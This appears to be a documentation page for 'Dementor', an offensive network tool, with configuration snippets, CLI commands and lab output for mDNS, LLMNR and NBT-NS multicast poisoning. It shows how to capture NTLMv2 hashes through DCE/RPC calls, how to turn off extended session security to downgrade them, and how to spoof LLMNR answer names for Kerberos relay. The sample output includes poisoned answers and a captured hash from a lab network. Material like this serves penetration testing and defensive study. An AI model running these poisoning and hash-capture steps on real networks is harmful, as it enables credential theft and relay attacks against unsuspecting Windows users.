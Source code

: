 .. _examples_multicast:

Multicast Poisoning ⚙️
======================

.. _example_multicast_mdns:

Classic Multicast Poisoning
---------------------------

To enable multicast poisoning, activate the poisoners in the configuration file
(:attr:`Dementor.mDNS`, :attr:`Dementor.NBTNS`, and :attr:`Dementor.LLMNR`).

.. tabs::

    .. tab:: Dementor.toml

        .. code-block:: toml
            :emphasize-lines: 3-5

            [Dementor]
            # [...]
            mDNS = true
            LLMNR = true
            NBTNS = true
            # [...]

    .. tab:: CLI

        .. code-block:: console

            $ Dementor -I "$INTERFACE" -O LLMNR=On -O mDNS=On -O NBTNS=On

You can trigger a discovery request from a Windows host, assuming mDNS is active. For example,
trying to access the file share ``\\FILESERVER01`` via File Explorer causes Windows to fall back to
mDNS when DNS resolution fails.

Dementor output in analyze mode should look like this:

.. container:: demo

    .. code-block:: console

        $ Dementor -I <INTERFACE> -A
        [...]
        MDNS       192.168.56.115  5353   [*] Request for FILESERVER01.local (class: IN, type: A)
        MDNS       192.168.56.115  5353   [*] Request for FILESERVER01.local (class: IN, type: AAAA)
        [...]

The Windows client issues two queries: one for IPv4 (``A``) and one for IPv6 (``AAAA``). These are
sent using Layer 2 broadcast and Layer 3 multicast to all devices on the subnet. Since mDNS is
link-local only, all hosts listening on port ``5353`` will receive the request.

----

.. _examples_multicast_rpc:

Using Multicast Poisoning for DCE/RPC Calls
-------------------------------------------

Multicast poisoning can also be used to capture NTLM hashes via DCE/RPC requests using Dementor's
built-in :ref:`config_dcerpc` service. By default, any call involving DCOM or the Endpoint Mapper (EPM)
is available.

.. tabs::

    .. tab:: Dementor.toml

        .. code-block:: toml
            :emphasize-lines: 3

            [Dementor]
            # [...]
            RPC = true
            # [...]

    .. tab:: CLI

        .. code-block:: console

            $ Dementor -I "$INTERFACE" -O RPC=On

.. hint::
    You can attempt to downgrade the captured NTLM hash using :attr:`NTLM.ExtendedSessionSecurity`.
    To test this via the CLI:

    .. code-block:: console

        $ Dementor -I "$INTERFACE" -O RPC=On -O RPC.ExtendedSessionSecurity=Off

To trigger a multicast-based RPC call, use a Windows tool such as ``gpresult`` to request Group
Policy data from a machine whose name will be resolved via mDNS:

.. container:: demo

    .. code-block:: text

        PS C:\Users\padawan> gpresult /S GROUPOLICYSRV /Z
        Type the password for OUTPOST\padawan:

If successful, Dementor will output something similar, including a captured NTLMv2 hash:

.. container:: demo

    .. code-block:: console
        :emphasize-lines: 4,8-10

        $ Dementor -I "$INTERFACE" -O RPC=On
        # [...]
        MDNS       192.168.56.120            5353   [*] Request for GROUPOLICYSRV.local (class: IN, type: AAAA)
        MDNS       192.168.56.120            5353   [+] Sent poisoned answer to 192.168.56.120
        # [...]
        DCE/RPC    192.168.56.120 135    [*] Bind request for [MS-DCOM]: Distributed Component Object Model (DCOM) Remote v0.0 (TransferSyntax Negotiation)
        DCE/RPC    192.168.56.120 135    [*] Bind request for [MS-DCOM]: Distributed Component Object Model (DCOM) Remote v0.0 (NTLMSSP_NEGOTIATE)
        DCE/RPC    192.168.56.120 135    [+] Captured NTLMv2 Hash for padawan/OUTPOST from fe80::a0c0:8ed2:6788:65f1:
        DCE/RPC    192.168.56.120 135    NTLMv2 Username: padawan
        DCE/RPC    192.168.56.120 135    NTLMv2 Hash: padawan::OUTPOST:313333374c454554:025aae2633c04b165fe8a601ed483fa4[...]

----

.. _examples_multicast_llmnr_answername:

LLMNR Answer-Name Spoofing
--------------------------

Beyond traditional multicast poisoning, Synacktiv introduced a technique that enables Kerberos
relaying via spoofed response names. This can be triggered by setting a custom
:attr:`LLMNR.AnswerName`.

.. tabs::

    .. tab:: Dementor.toml

        .. code-block:: toml
            :emphasize-lines: 2

            [LLMNR]
            AnswerName = "other-srv"

    .. tab:: CLI

        .. code-block:: console

            $ Dementor -I "$INTERFACE" -O LLMNR.AnswerName="other-srv"

.. seealso::

    Synacktiv's excellent write-up on abusing this for pre-authenticated Kerberos relay attacks:

    - `Abusing multicast poisoning for pre-authenticated Kerberos relay over HTTP with Responder and krbrelayx <https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with>`_

Example output when using a spoofed LLMNR answer name:

.. container:: demo

    .. code-block:: console
        :caption: Dementor output if :attr:`LLMNR.AnswerName` is set (here ``"other-srv"``)
        :emphasize-lines: 2,4

        LLMNR      192.168.56.116            5355   [*] Query for SomeService (type: A)
        LLMNR      192.168.56.116            5355   [+] Sent poisoned answer to 192.168.56.116 (spoofed name: other-srv)
        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [*] Query for SomeService (type: AAAA)
        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [+] Sent poisoned answer to fe80::8930:4b9c:f67c:f9bf (spoofed name: other-srv)
        LLMNR      192.168.56.116            5355   [*] Query for SomeService (type: AAAA)
        LLMNR      192.168.56.116            5355   [+] Sent poisoned answer to 192.168.56.116 (spoofed name: other-srv)
        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [*] Query for SomeService (type: A)
        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [+] Sent poisoned answer to fe80::8930:4b9c:f67c:f9bf (spoofed name: other-srv)
        LLMNR      192.168.56.116            5355   [*] Query for SomeService (type: A)
        LLMNR      192.168.56.116            5355   [+] Sent poisoned answer to 192.168.56.116 (spoofed name: other-srv)

